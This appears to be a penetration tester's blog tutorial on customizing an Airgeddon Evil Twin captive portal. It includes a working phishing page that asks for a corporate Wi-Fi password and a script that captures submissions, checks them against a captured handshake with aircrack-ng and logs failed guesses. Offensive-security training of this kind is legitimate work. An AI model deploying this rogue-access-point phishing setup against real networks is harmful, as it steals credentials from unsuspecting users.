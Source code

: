 ```yaml
---
title: "Customize your Captive Portal in Airgeddon's Evil Twin Attack"
categories:
    - Penetration Test
    - Wi-Fi
toc: true
toc_label: "Table of Contents"
toc_sticky: true
show_date: true
---
```


# Introduction
During a Wi-Fi penetration test recently, I tried to explore further about Evil Twin attacks, which is one of the client-side attacks. To whom may not know much about this attack, Evil Twin attacks involve adversaries who attempt to mimic a target Wi-Fi access point with a rogue acccess point and to trick users to connect the fake one.

# Custom Portal Plugin in Arigeddon

## Installation

Download the script `customportals.sh` on [](https://github.com/KeyofBlueS/airgeddon-plugins) and put it in `/usr/share/airgeddon/plguins`. Also, create a folder called `custom_portals` which will store all your customized captive portal template.

```sh
┌──(root㉿kali)-[/usr/share/airgeddon/plugins]
└─# ls -al
total 96
drwxr-xr-x 3 root root  4096 Sep  5 23:45 .
drwxr-xr-x 4 root root  4096 Sep  5 21:35 ..
drwxr-xr-x 2 root root  4096 Sep  5 23:45 custom_portals
-rw-r--r-- 1 root root 38008 Sep  5 23:38 customportals.sh
-rw-r--r-- 1 root root 34298 Aug  1 19:07 missing_dependencies.sh
-rw-r--r-- 1 root root  6401 Aug  1 19:07 plugin_template.sh
```

# Working on the Template
## index.htm
`index.htm` is the captive portal page that tricks users to provide information, such as Wi-Fi password or even their active directory credentials. In the following example, we attempt to tell the staff to provide the corporate Wi-Fi password in a scenario of WPA-PSK SSIDs.

```sh
#!/usr/bin/env bash
echo '<!DOCTYPE html>'
echo '<html>'
echo -e '	<head>'
echo -e '		<meta name="viewport" content="width=device-width"/>'
echo -e '		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>'
echo -e '		<title>"${et_misc_texts[${captive_portal_language},15]}"</title>'
echo -e '		<link rel="stylesheet" type="text/css" href="portal.css"/>'
echo -e '		<script type="text/javascript" src="portal.js"></script>'
echo -e '	</head>'
echo -e '	<div class="content">'
echo -e '		<form method="post" id="loginform" name="loginform" action="check.htm">'
echo -e '			<img src="./logo.png" alt="Logo" class="logo"/>'
echo -e '			<h1>Wi-Fi Access</h1>'
echo -e '			<p class="description">Please enter the Wi-Fi password to gain access to the corporate Wi-Fi network.</p>'
echo -e '			<label><input id="password" maxlength="63" name="password" size="20" type="password" placeholder="Password" class="input-field"/></label>'
echo -e '			<input type="submit" value="Connect" class="button"/>'
echo -e '		</form>'
echo -e '		<p class="warning">Only authorized persons are allowed to access the coporate network of ABC Company.</p>'
echo -e '	</div>'
exit 0
```

You may also notice that the form action will be taken in `check.htm` where I will explain further in the next section.

## check.htm

`check.htm` is to proceed the form submission by users in `index.htm`. The script would firstly extract the information from the POST HTTP data. In this case, the password is retrieved.

```sh
POST_DATA=$(cat /dev/stdin)
if [[ "${REQUEST_METHOD}" = "POST" ]] && [[ ${CONTENT_LENGTH} -gt 0 ]]; then
	POST_DATA=${POST_DATA#*=}
	password=${POST_DATA/+/ }
	password=$(printf '%b' "${password//%/\\x}")
fi
```

Once the password is retrieved, there are a couple of conditional statements following. The first one is to validate the length of the password provided by the user. The length should be at least 8 characters and less than 64 characters. If validated, the password will be temporarily saved in `${tmpdir}${webdir}${currentpassfile}`, which should typically be `/tmp/ag1/www/`. The password will be used to crack the hash in the 4-way handshake file captured by airodump-ng and Airgeddon.

```sh
if [[ ${#password} -ge 8 ]] && [[ ${#password} -le 63 ]]; then
	rm -rf "${tmpdir}${webdir}${currentpassfile}" > /dev/null 2>&1
	echo "${password}" >\
	"${tmpdir}${webdir}${currentpassfile}"
	aircrack-ng -a 2 -b ${bssid} -w "${tmpdir}${webdir}${currentpassfile}" "${et_handshake}" | grep "KEY FOUND!" > /dev/null
```

Then, check whether `KEY FOUND` is in the output of `aircrack-ng` to determine the attack is successful or not.

```sh
if [ "$?" = "0" ]; then
	touch "${tmpdir}${webdir}${et_successfile}" > /dev/null 2>&1
	echo '<h1 class="success">Connection Success</h1>The password is correct, the connection will be restablished in a few moments'
	et_successful=1
else
	echo "${password}" >>\
	"${tmpdir}${webdir}${attemptsfile}"
	echo '<h1 class="error">Connection Error</h1>The password is incorrect, redirecting to the main screen'
	et_successful=0
fi
```

## portal.css

You could customize the CSS content here.

## portal.js

In `check.htm`, if the password is not correct, the user will be redirected to the captive portal page in a few seconds.

```sh
if [ ${et_successful} -eq 1 ]; then
    exit 0
else
    echo '<script type="text/javascript">'
    echo -e '\tsetTimeout("redirect()", 3500);'
    echo '</script>'
    exit 1
fi
```

The JavaScript function `redirect()` is called in `portal.js` to redirect to `index.htm`.

```javascript
function redirect() {
    document.location = "index.htm";
}
```

Meanwhile, some response corresponding to the form could be included here, such as password length validation.

```javascript
(function() {
    var onLoad = function() {
        var formElement = document.getElementById("loginform");
        if (formElement != null) {
            var validateForm = function(event) {
                event.preventDefault();
                var password = document.getElementById("password").value;
                if (password === "") {
                    alert("Please enter the Wi-Fi password.");
                } else if (password.length < 8) {
                    alert("The password must be at least 8 characters.");
                } else {
                    formElement.submit();
                }
            };
            formElement.addEventListener("submit", validateForm);
        }
    };

    document.readyState != 'loading' ? onLoad() : document.addEventListener('DOMContentLoaded', onLoad);
})();
```

# The Demo Captive Portal

Put the template in a sub-folder of `/usr/share/airgeddon/plugins/custom_portals/`.

```sh
┌──(root㉿kali)-[/usr/…/airgeddon/plugins/custom_portals/Demo]
└─# ls -al
total 48
drwxr-xr-x 2 root root  4096 Sep  6 02:11 .
drwxr-xr-x 3 root root  4096 Sep  5 23:46 ..
-rw-r--r-- 1 root root  2036 Sep  6 02:10 check.htm
-rw-r--r-- 1 root root  1170 Sep  6 02:10 index.htm
-rwxr-x--- 1 root root 24228 Sep  6 02:11 logo.png
-rw-r--r-- 1 root root  1556 Sep  6 02:10 portal.css
-rw-r--r-- 1 root root   889 Sep  6 02:11 portal.js
```

After the handshake capture file with deauthentication has been obtained, a rogue AP will be established with the captive portal.

![](/assets/images/2025-09-06-02.png)


![](/assets/images/2025-09-06-03.png)

# Resources

https://zimperium.com/glossary/evil-twin-attacks